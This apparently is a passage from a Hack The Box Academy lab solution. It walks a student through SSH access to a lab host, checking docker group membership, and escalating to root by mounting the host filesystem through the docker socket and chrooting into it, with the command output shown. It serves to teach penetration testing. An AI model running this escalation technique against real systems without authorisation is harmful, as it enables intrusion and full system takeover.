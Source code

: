 Code: shell

```shell
ssh htb-student@STMIP
```

```
┌─[eu-academy-1]─[10.10.14.107]─[htb-ac-594497@htb-2nilp36wn9]─[~]
└──╼ [★]$ ssh htb-student@10.129.205.237

The authenticity of host '10.129.205.237 (10.129.205.237)' can't be established.
ECDSA key fingerprint is SHA256:3I77Le3AqCEUd+1LBAraYTRTF74wwJZJiYcnwfF5yAs.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.205.237' (ECDSA) to the list of known hosts.
htb-student@10.129.205.237's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-88-generic x86_64)

<SNIP>

htb-student@ubuntu:~$ 
```

Next, students need to verify that the `htb-student` user is part of the `docker` group:

Code: shell

```shell
id
```

```
htb-student@ubuntu:~$ id
uid=1001(htb-student) gid=1001(htb-student) groups=1001(htb-student),118(docker)
```

Confirming the group membership, students now need to enumerate available docker images:

Code: shell

```shell
docker image ls
```

```
htb-student@ubuntu:~$ docker image ls
REPOSITORY   TAG       IMAGE ID       CREATED       SIZE
ubuntu       latest    5a81c4b8502e   5 weeks ago   77.8MB
```

Discovering the `ubuntu` image, students need to utilize the docker socket located at `/var/run/docker.sock` to escalate privileges:

Code: shell

```shell
docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it ubuntu chroot /mnt bash
```

```
htb-student@ubuntu:~$ docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it ubuntu chroot /mnt bash

root@bdf770b635d6:/# 
```
